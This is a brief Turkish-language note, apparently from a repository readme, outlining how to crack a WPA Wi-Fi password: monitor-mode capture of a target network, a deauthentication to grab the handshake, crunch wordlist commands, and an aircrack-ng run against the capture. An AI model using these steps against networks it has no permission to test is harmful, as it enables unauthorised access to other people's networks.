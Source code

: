 1) Monitör Mod - Modem Dinle - Hedef Modemi Dinle ve Write Et
2) Modemi dinlemeye devam ederken kısa bir deauth yap ve handshake yakala
3) Wordlist oluştur veya hazır wordlist bul.
	- crunch \<min karakter\> \<max karakter\> \<içerebileceği karakterler\> -o wordlist
	- crunch 8 10 abcdx12345 -o worldist
4) aircrack-ng \<handshake cap\> -w wordlist